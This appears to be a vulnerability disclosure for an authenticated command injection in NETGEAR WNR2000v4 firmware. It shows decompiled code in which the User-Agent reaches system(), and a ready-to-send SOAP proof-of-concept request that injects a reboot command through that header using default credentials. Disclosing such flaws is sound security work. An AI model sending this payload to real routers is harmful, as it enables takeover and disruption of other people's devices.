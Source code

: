 # WNR2000v4-1.0.0.70 Authorized Command Injection 

## Description
Command injection vulnerability exists in NETGEAR WNR2000v4, firmware version 1.0.0.70. When using HTTP for SOAP authentication, command execution occurs during the process after successful authentication.

## Details
In the SOAP authentication function soap_auth, the User-Agent of the successful authentication packet will be written to the /tmp/soap_user_agent file, which can lead to command injection.Injecton could be triggered by handle_request -> ExecuteSoapAction -> soap_auth.
```c
soap_auth(){
...
        if ( soap_user_agent )
        {
          sprintf(v18, "echo %s >>/tmp/soap_user_agent", soap_user_agent);
          system(v18);
          return 1;
        }
...
}
```

## POC
```
GET http://192.168.1.1/currentsetting.htm HTTP/1.1
Accept: text/xml
Accept: multipart/*
Accept: application/soap
User-Agent: ";`reboot`;"
Content-Length: 691
Content-Type: text/xml; charset=utf-8
SOAPAction: "urn:NETGEAR-ROUTER:service:ParentalControl:1#Authenticate"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope 
    soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:M1="urn:NETGEAR-ROUTER:service:ParentalControl:1" 
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" 
    xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <soap:Header>
    <SessionID>16DF8F8B8CBB9B1A1016</SessionID>
  </soap:Header>

  <soap:Body>
    <M1:Authenticate>
      <NewUsername>admin</NewUsername>

      <NewPassword>password</NewPassword>
    </M1:Authenticate>
  </soap:Body>
</soap:Envelope>
```
